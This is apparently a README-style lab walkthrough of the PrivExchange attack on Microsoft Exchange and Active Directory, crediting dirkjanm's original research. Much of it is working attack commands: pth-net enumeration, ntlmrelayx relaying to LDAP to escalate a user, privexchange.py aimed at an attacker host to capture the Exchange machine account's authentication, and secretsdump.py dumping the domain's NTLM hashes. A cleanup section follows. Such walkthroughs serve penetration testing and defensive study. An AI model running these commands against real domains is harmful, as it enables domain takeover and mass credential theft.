



This is not my discovery, and is merely an expansion and demo of how to use the PrivExchange exploit. See [_dirkjan](https://twitter.com/_dirkjan)'s blog post [Abusing Exchange: One API call away from Domain Admin](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/) for the original discovery.

## Overview

The PrivExchange tool simply logs in on Exchange Web Services to subscribe to push notifications to a specific host. This will make the Exchange server's machine account send its NTLMv2 hash back to the attacker host. As this machine account usually has severely high privileges in the domain, it can then be relayed to the domain controller to gain domain privilege escalation.

## Prerequisites

- [PrivExchange](https://github.com/dirkjanm/PrivExchange.git) and [Impacket](https://github.com/SecureAuthCorp/impacket) toolkit installed.
- Domain Name, DC IP, Exchange Server, and your Attack host IP.
- A host on the network with the ability to run your tools.
- A valid domain user account and password, or NTLM hash.
- A valid Exchange Server hostname or IP address. We can check this with `pth-net` from [pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit)

      pth-net rpc group members "Exchange Servers" -I dc01.lab.local -U lab/buff

### The different components of the attack

- `lab.local` - Domain name
- `dc01.lab.local` - Domain controller
- `mail01.lab.local` - Exchange server
- `192.168.0.142` - Attacker host

## Exploitation

Run `ntlmrelayx` with the DC IP that we want to relay to, and specify a domain user we control, who we want to escalate privileges for.

    ntlmrelayx.py -t ldap://dc01.lab.local --escalate-user buff

Use the "PrivExchange” tool to send push notification to your own NTLM Relay server. The `-ah` parameter is the `attacking host` and the following parameter is the Exchange server. We also have to give it the domain, username and password for the user we control. Note that the user must have a mailbox connected.

    python privexchange.py -ah 192.168.0.142 mail01.lab.local -d lab.local -u chry -p Welcome1

This should take exactly one minute. An HTTP connection comes in from the exchange server, and we request authentication from it. It replyed with the NTLMv2 hash of the `MAIL01$` machine account. We capture and relay the credentials over LDAP to the domain controller, which is used to modify the ACL privileges of our user to get DCsync rights.

Once the user in our control obtains `Replication-Get-Changes-All` privileges in the domain we can run `secretsdump.py` to dump hashes from the domain controller.

    secretsdump.py lab/buff@192.168.0.2 -ntds ntds -history -just-dc-ntlm

### Wireshark

We first see the API call on HTTPS go to the Exchange server. Followed by 1 minute of waiting, we see a connection negotitation happen initiated from the Exchange server, followed by our Kali box POSTing the `/privexchange` URL.

Followed by the relay to LDAP

## Cleanup

### Using aclpwn

Any ACL attack using `ntlmrelayx` saves a restore file that can be provided to [aclpwn.py](https://github.com/fox-it/aclpwn.py) to restore the original permissions on the domain object.

    python aclpwn.py --restore ../aclpwn-20190319-125741.restore

### Using GUI

In "Active Directory Users and Computers”, enable Advanced Features (in View Menu), Right-click [Domain -> Security -> Advanced]. Then look for the domain username account that you just gave "Replicating Directory Changes” and "Replicating Directory Changes All” privileges to and remove those Permission entries in the "Allow” checkboxes.

We can only use ADSI Edit to view the properties of the domain object, where we can see that the domain user account we gave DCsync privileges have those privileges:

## Links

- [https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/)
- [https://github.com/dirkjanm/PrivExchange](https://github.com/dirkjanm/PrivExchange) - Python
- [https://github.com/G0ldenGunSec/PowerPriv](https://github.com/G0ldenGunSec/PowerPriv) - Powershell version
- [https://github.com/panagioto/SharpExchangePriv](https://github.com/panagioto/SharpExchangePriv) - C#